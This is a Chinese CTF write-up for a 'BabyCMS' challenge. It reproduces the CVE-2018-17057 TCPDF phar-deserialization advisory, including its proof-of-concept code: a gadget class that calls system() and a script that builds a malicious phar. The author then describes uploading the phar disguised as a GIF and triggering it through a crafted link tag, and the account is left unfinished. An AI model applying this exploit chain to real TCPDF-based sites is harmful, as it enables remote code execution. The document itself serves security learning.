

# BabyCMS

提示说了 TCPDF，这个库用的是 6.2.8 版本。

TCPDF 6.2.22之前版本中存在安全漏洞。攻击者可利用该漏洞反序列化任意数据[（link）](http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-201809-735)。

太好了（不是

```php
CVE-2018-17057: phar deserialization in TCPDF might lead to RCE
---------------------------------------------------------------

Affected products
=================

TCPDF <= 6.2.19

Background
==========

"Started in 2002, TCPDF is now one of the world's most active Open Source
projects, used daily by millions of users and included in thousands of CMS
and Web applications." - https://tcpdf.org/

"PHP library for generating PDF documents on-the-fly." -
https://github.com/tecnickcom/TCPDF

Description
===========

TCPDF allows the developers to insert HTML code inside the PDF, which will
be translated to a similar-looking design during PDF creation. For example
it is possible to insert basic HTML tags, such as "img" or "b" and have the
image and bold text placed in the output PDF.
The library allows also to include custom CSS rules by defining a "link"
tag, like the following:
<link type="text/css" href="style.css">

While it is a nice feature to have for the developer, it may cause problems
in case the PDF creation script is vulnerable to Cross-Site Scripting (or
"Code Injection") issues through which an attacker can inject arbitrary
HTML code. For example during an invoice creation, an attacker can use its
information written on the invoice to insert a malicious "link" tag
pointing to a local phar archive and trigger a PHP Object Injection through
the phar:// scheme once the web application reads that file.

Exploit
=======

In order to test this vulnerability it's enough to clone the project from
github and checkout a vulnerable version, such as 6.2.19:
git clone https://github.com/tecnickcom/TCPDF.git && cd TCPDF && git
checkout tags/6.2.19

After that it is possible to craft a phar archive containing a malicious
PHP Object and potentially trigger a RCE, here is a vulnerable code which
helps to reproduce the issue:
<?php
/*
*    title:     PHP object injection via phar:// deserialization
*    author:    polict
*    target:    TCPDF (https://github.com/tecnickcom/TCPDF) <= 6.2.19
*    setup:     git clone https://github.com/tecnickcom/TCPDF.git && cd
TCPDF && git checkout tags/6.2.19
*/

/* include vulnerable class (any PHP Object Injection gadget can be used,
see https://github.com/ambionics/phpggc) */
class Vulnerable {
    function __destruct() { system($this->hook); }
}

/* include the main TCPDF library */
require_once('tcpdf.php');
/* create new PDF document */
$pdf = new TCPDF(PDF_PAGE_ORIENTATION, PDF_UNIT, PDF_PAGE_FORMAT, true,
'UTF-8', false);
/* set document information */
$pdf->SetAuthor('polict');
$pdf->SetTitle('Proof of concept');
/* start pdf */
$pdf->AddPage();
/* create some HTML content */
$html = '<link type="text/css" href="phar://./poc.phar">';
/* insert the HTML content -- exploit will trigger here */
$pdf->writeHTML($html, true, false, true, false, '');
/* close and output PDF document */
$pdf->Output('poc.pdf', 'I');

In order to create the evil archive it's possible to use PHP:
<?php
$phar = new Phar('poc.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

$malicious_object = new Vulnerable();
$malicious_object->hook = "whoami";
$phar->setMetadata($malicious_object); // <-- inject the trigger

$phar->stopBuffering();

The archive will be in 'poc.phar'.

Note: This vulnerability depends on the developer using writeHTML() with
user-supplied input.

Author
======

This issue was discovered by polict (https://polict.net).

Timeline
========

17 august 2018:
—> report to developer

14 september 2018:
—> ping
<— released 6.2.20 (which re-introduced the vulnerability reported by Sam
Thomas, see
https://github.com/s-n-t/presentations/blob/master/us-18-Thomas-It's-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It.pdf
)
—> ping about re-introduction of old vulnerability
<— released 6.2.22 with fix for both
MITRE assigned CVE-2018-17057

17 march 2019:
public release
```

这个垃圾网站可以通过 `http://111.186.57.85:30042/index.php/Home/Index/xls` 和 `http://111.186.57.85:30042/index.php/Home/Index/csv` Dump 数据。但是，这两个接口的路径都是写死的——没办法直接把 flag 打印出来。

> 可惜

根据 Hint 1: tcpdf，他有一个 `/pdf` 接口，直接通过 HTML 生成 PDF。

这个 tcpdf 有个反序列化漏洞，可以任意执行 phar。

那么，我们就开始生成：

```php
<?php
$phar = new Phar('poc.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

$malicious_object = new Vulnerable();
$malicious_object->hook = "echo flag";
$phar->setMetadata($malicious_object); // <-- inject the trigger

$phar->stopBuffering();
>
```

构造好了这个 phar，但是要把它放到服务器上才能用。遗憾的是，服务器关于上传部分的代码被注释掉了。

好奇怪…按理说这里应该就这种攻击方式了。但是找不到办法去传入 phar。

捏着鼻子把 baijunyao 的代码跟文档读了一遍。然後跟「魔改版」diff 了一下。

几乎一行新代码没加，倒是把原来的代码 Comment 了一大堆。

> 你这不叫「魔改」，叫「阉割」

不过，这道题里割掉了这一个 `_empty` 方法，导致简单的任意模版调用不可行了。

```php
    /**
     * 拦截空方法 自动加载html
     * @param  string $methed_name 空方法
     */
    // Sorry for this...
    // public function _empty($methed_name){
    //     $this->display($methed_name);
    //     exit(0);
    // }
```

新加的代码，只有一行：



```
    public function __toString()
    {
        file_put_contents("step4", "data");
        return $this->serializeToXml();
    }
```

翻了一下原仓库，是没有这个更动的。

> 五年来没动过；
>
> > 尽管这行代码怎么看都不像正常功能代码；
> >
> > 但这个作者的狂乱代码风格让我不禁有些怀疑；
> >
> > > 已经被他所有标点符号都用分号（竟然还是中文分号！）代替的文风洗脑了；

换言之，如果我们调用一次这个类型的 `__toString` 魔法方法，就会在当前目录下创建一个 `step4` 文件，并向其中写入 `data`。

那么该怎么调用呢？Static 中有个 Umeditor Example。

> 这种东西居然能打包进生产环境？

把 phar 放进来：

```
http://111.186.57.85:30042/Public/statics/umeditor1_2_3/php/upload/20201012/16024844906165.gif
```

得到 URL：

`phar://../../Public/statics/umeditor1_2_3/php/upload/20201012/16024844906165.gif`

构造 HTML：

```html
<link type="text/css" href="phar://../../Public/statics/umeditor1_2_3/php/upload/20201012/16024844906165.gif">
```

就可以执行了。

唯一的问题就是：怎么找到那个 `__destruct` 中 `echo` 的 Vulnerable 函数。
